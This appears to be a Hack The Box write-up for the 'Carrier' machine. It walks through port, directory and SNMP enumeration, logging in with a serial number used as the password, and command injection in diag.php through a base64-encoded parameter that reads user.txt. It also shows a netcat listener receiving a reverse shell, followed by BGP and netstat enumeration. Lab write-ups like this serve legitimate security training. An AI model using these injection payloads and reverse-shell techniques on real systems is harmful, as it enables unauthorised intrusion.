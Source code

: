 ```yaml
---
layout: post
title: Hackthebox Carrier Writeup
categories: HackTheBox
---
```


<img src="/public/images/2019-03-01/carrier_badge.png"><br>
## Explanation
<a href="https://www.hackthebox.eu">Hackthebox</a> is a website which has bunch of vulnerable machines in its own VPN.
This is a write-up of machine "Carrier" on that website.

## Solution
### 1. Initial Enumeration
Port Scanning:
{% highlight shell %}
root@kali:/home/sabonawa# nmap -p- 10.10.10.105 -sV -sC
Starting Nmap 7.70 ( https://nmap.org ) at 2018-09-23 09:22 EEST
Nmap scan report for 10.10.10.105
Host is up (0.037s latency).
Not shown: 65532 closed ports
PORT   STATE    SERVICE VERSION
21/tcp filtered ftp
22/tcp open     ssh     OpenSSH 7.6p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 15:a4:28:77:ee:13:07:06:34:09:86:fd:6f:cc:4c:e2 (RSA)
|   256 37:be:de:07:0f:10:bb:2b:b5:85:f7:9d:92:5e:83:25 (ECDSA)
|_  256 89:5a:ee:1c:22:02:d2:13:40:f2:45:2e:70:45:b0:c4 (ED25519)
80/tcp open     http    Apache httpd 2.4.18 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Login
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 33.14 seconds
{% endhighlight %}

Gobuster HTTP:
{% highlight shell %}
root@kali:/home/sabonawa# gobuster -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -s '200,204,301,302,403' -u http://10.10.10.105/ -x .php

=====================================================
Gobuster v2.0.0              OJ Reeves (@TheColonial)
=====================================================
[+] Mode         : dir
[+] Url/Domain   : http://10.10.10.105/
[+] Threads      : 10
[+] Wordlist     : /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes : 200,204,301,302,403
[+] Extensions   : php
[+] Timeout      : 10s
=====================================================
2018/09/23 09:56:07 Starting gobuster
=====================================================
/index.php (Status: 200)
/img (Status: 301)
/tools (Status: 301)
/doc (Status: 301)
/css (Status: 301)
/js (Status: 301)
/tickets.php (Status: 302)
/fonts (Status: 301)
/dashboard.php (Status: 302)
/debug (Status: 301)
/diag.php (Status: 302)
/server-status (Status: 403)
=====================================================
2018/09/23 10:27:10 Finished
=====================================================
{% endhighlight %}

UDP Scanning:
{% highlight shell %}
sabonawa@kali:~$ sudo nmap -sU 10.10.10.105 --top-ports 1000 -sV -sC
[sudo] password for sabonawa: 
Starting Nmap 7.70 ( https://nmap.org ) at 2018-09-23 18:55 EEST
Nmap scan report for 10.10.10.105
Host is up (0.037s latency).
Not shown: 998 closed ports
PORT    STATE         SERVICE VERSION
67/udp  open|filtered dhcps
161/udp open          snmp    SNMPv1 server; pysnmp SNMPv3 server (public)
| snmp-info: 
|   enterprise: pysnmp
|   engineIDFormat: octets
|   engineIDData: 77656201ec7908
|   snmpEngineBoots: 2
|_  snmpEngineTime: 3h09m02s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 1185.70 seconds
{% endhighlight %}

SNMP enumeration:
{% highlight shell %}
sabonawa@kali:~$ snmpwalk -c public -v1 10.10.10.105
iso.3.6.1.2.1.47.1.1.1.1.11 = STRING: "SN#NET_45JDX23"
{% endhighlight %}

### 2.Getting User
What we can find on port 80 is login console of Lyghtspeed with some Error.
![placeholder](https://inar1.github.io/public/images/2019-03-01/2019-02-26-14-34-23.png)

By looking as /doc, we can figure out what these error code means and there is an interesting line.
![placeholder](https://inar1.github.io/public/images/2019-03-01/2019-02-26-12-54-09.png)

We can guess like "SN" stands for "serial number".<br>
If we try some petterns, we can find this credential for Lyghtspeed

{% highlight shell %}
admin:NET_45JDX23
{% endhighlight %}

After logged in, we can find an interesting page /diag.php.
![placeholder](https://inar1.github.io/public/images/2019-03-01/2019-02-26-13-05-16.png)

Sounds like if we click "verify status" button, we have a result of linux command.
The value which we post is base64 encoded.

{% highlight html %}i
<input type="hidden" id="check" name="check" value="cXVhZ2dh">
<div class="form-group">
    <button type="submit" class="btn btn-primary">
{% endhighlight %}

Decoded value of "cXVhZ2dh" is "quagga" and This is possible RCE vulnerability.<br>
By sending arbitorary code, we can achieve user.txt.

{% highlight shell %}
check=aHR0cDtpZDtjYXQgL3Jvb3QvdXNlci50eHQgIyA=
# http;id;cat /root/user.txt # 
{% endhighlight %}

![placeholder](https://inar1.github.io/public/images/2019-02-24/2019-02-24-13-16-40.png)

### Getting Root
By taking advantage of this RCE, we can easily achieve reverse shell.
{% highlight shell %}
root@kali:/home/sabonawa# nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.23] from (UNKNOWN) [10.10.10.105] 51590
bash: cannot set terminal process group (2281): Inappropriate ioctl for device
bash: no job control in this shell
root@r1:~# 
{% endhighlight %}

Sounds like we got a root shell. However, we can not find root.txt anywhere.<br>
We already know that <a href="https://www.nongnu.org/quagga/">Quagga</a> is running on this server.<br>
By enumeration, we can find additional servers which is realated to this server.

{% highlight shell %}
root@r1:/etc/quagga# cat bgpd.conf
cat bgpd.conf
!
! Zebra configuration saved from vty
!   2018/07/02 02:14:27
!
route-map to-as200 permit 10
route-map to-as300 permit 10
!
router bgp 100
 bgp router-id 10.255.255.1
 network 10.101.8.0/21
 network 10.101.16.0/21
 redistribute connected
 neighbor 10.78.10.2 remote-as 200
 neighbor 10.78.11.2 remote-as 300
 neighbor 10.78.10.2 route-map to-as200 out
 neighbor 10.78.11.2 route-map to-as300 out
!
line vty

root@r1:/etc/quagga# netstat -nlpa
netstat -nlpa
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
tcp        0      0 127.0.0.1:2601          0.0.0.0:*               LISTEN      25658/zebra     
tcp        0      0 127.0.0.1:2605          0.0.0.0:*               LISTEN      25662/bgpd      
tcp        0      0 0.0.0.0:179             0.0.0.0:*               LISTEN      25662/bgpd      
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      483/sshd        
tcp        0      0 10.99.64.2:22           10.99.64.251:57156      ESTABLISHED 25535/sshd: root@no
tcp        0      0 10.78.10.1:55160        10.78.10.2:179          ESTABLISHED 25662/bgpd      
tcp        0     14 10.99.64.2:58254        10.10.14.23:443         ESTABLISHED 25569/bash      
tcp        0      0 10.78.11.1:57658        10.78.11.2:179          ESTABLISHED 25662/bgpd      
tcp6       0      0 :::179                  :::*                    LISTEN      25662/bgpd      
tcp6       0      0 :::22                   :::*                    LISTEN      483/sshd        
raw6       0      0 :::58                   :::*                    7           25658/zebra     
!
{% endhighlight %}
